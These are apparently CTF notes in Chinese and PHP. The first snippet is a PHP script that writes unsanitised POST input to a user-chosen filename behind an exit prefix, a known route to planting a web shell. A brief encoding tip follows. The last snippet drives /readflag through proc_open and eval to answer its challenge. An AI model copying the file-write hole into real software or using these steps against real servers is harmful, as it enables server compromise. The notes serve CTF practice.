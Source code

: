 ```php


<?php
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
```



看清楚编码

```
\x09  => 正常十六进制
%09  => URL 编码
```

*CTF readflag 无法手动提交

```php
<?php
function runCommand($cmd) {
    $descriptors = [
        array("pipe", "rw"),
        array("pipe", "w"),
        array("pipe", "w"),
    ];
    $pipes = [];
    $process = \proc_open($cmd, $descriptors, $pipes, __DIR__);
    $stderr = '';
    $stdout = '';
    if (\is_resource($process)) {
        stream_set_blocking($pipes[2], FALSE);
        stream_set_blocking($pipes[1], FALSE);
        while (true) {
            if (!feof($pipes[1])) {
                $a = fgetc($pipes[1]);
                if ($a !== false) {
                    $stdout .= $a;
                    if (preg_match("/input your answer:/", $stdout)) {
                    	$stdout = explode("first", $stdout)[1];
                    	$stdout = explode("input", $stdout)[0];
                    	$ret = eval('return ' . $stdout . ';');
                    	echo $ret;
                    	fwrite($pipes[0], $ret . "\r\n");
                    	fflush($pipes[0]);
                    	fclose($pipes[0]);
                    }
                }
            }
            if (feof($pipes[2]) && feof($pipes[1])) {
                break;
            }
        }
        \fclose($pipes[1]);
        \fclose($pipes[2]);
        $status = \proc_close($process);
    }
    return [$stdout, $stderr, $status];
}

var_dump(runCommand('/readflag'));
```
